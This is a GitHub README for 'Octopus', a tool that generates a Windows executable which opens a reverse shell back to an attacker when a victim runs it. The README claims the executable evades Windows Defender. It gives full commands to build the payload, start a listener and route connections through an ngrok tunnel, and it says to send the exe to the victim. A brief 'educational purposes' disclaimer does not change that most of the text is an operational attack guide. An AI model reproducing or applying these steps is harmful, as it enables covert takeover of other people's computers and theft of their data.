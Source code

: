 
# Octopus

Octopus is a tool which can generate an exe which can return a
reverse shell to the attacker when the victim runs the exe file.
The exe generated by this tool can currently (June 2022) bypass
windows defender and some other antiviruses. I hope that the
antiviruses will be able to detect the octopus exe soon because
this is a threat to privacy.

# Important

This tool is strictly made for educational purposes only and
I have no intention to harm anyone or steal any data so please
test this only on the machines you own. This tool is made so that
people can get the basic idea how reverse shell works

#### I will not be responsible for any of your acts.




# Installation

Install octopus

```bash
git clone https://github.com/Rajas2323/octopus
```

The octopusgenerator.py script will only work on windows currently
because nuikta which is an exe generator tool for python was
giving errors when I tested it on linix. I may fix this issue
later
    
# Usage/Examples


## Localhost Usage Example

If you want to test octopus locally, follow the given steps

in the octopus directory, there are two python files

* listener.py
* octopusgenerator.py 

we will generate the the exe by running the command

```bash
python octopusgenerator.py -H 127.0.0.1 -p 4444 -o exename.exe
```

now we will listen for connections by running
```bash
python listener.py
```

now the listener script will ask you to enter port on which
you want to listen, in this example the port is 4444, so we will have
to enter there 4444. Now when you will double click or open the
exe, it will send reverse shell on the listener.


## Remote Usage Example

#### Now you will learn how to use this tool on remote devices.

First of all, to listen to the connections from remote computers
We will need port forwarding, but setting a static ip address and
setting up port forwarding is really a headache. So we will use
a tool which will make our work very simple.
The tool is Ngrok

Now I won't tell you how to download and setup ngrok. Moving
directly to the usage, we will execute command,

```bash
ngrok tcp 4444
```

Now ngrok tool will show you this on terminal

```bash
Session Status       Online
Account              yourregistered@gmail.com (Plan: Free)
Version              3.0.2
Region               Your Country
Latency              42.5611ms
Web Interface        http://127.0.0.1:4040
Forwarding           tcp://0.tcp.in.ngrok.io:19280 -> localhost:4444

```

Now ngrok has created a tcp tunnel which will forward the
connections to 127.0.0.1:4444 on which we will run our listener

The important information shown is Forwarding, 
ngrok is forwarding connections which connect to
0.tcp.in.ngrok.io on port 19280 in this example to 127.0.0.1:4444
Now you don't have to close ngrok at all


So while generating octopus exe, will set host to our ngrok tcp link
which is 0.tcp.in.ngrok.io and we will set port to our ngrok port
which is 19280 in this example..

So the command to generate exe will be 

```bash
python octopusgenerator.py -H 0.tcp.in.ngrok.io -p 19280 -o exename.exe
```

now after exe is created, we will simply run our listener by running command

```bash
python listener.py
```

now the python script will ask to input our port, we will enter
the port which we entered in the ngrok command which is 4444
in this case.

Now we will send the exe to our victim machine and when the exe is
executed, we will get reverse shell and will be able enter cmd commands
to get data from that machine. If you destroy the ngrok instance or
the user will close the exe via task manager, we will loose the
reverse shell as the connection will be lost.
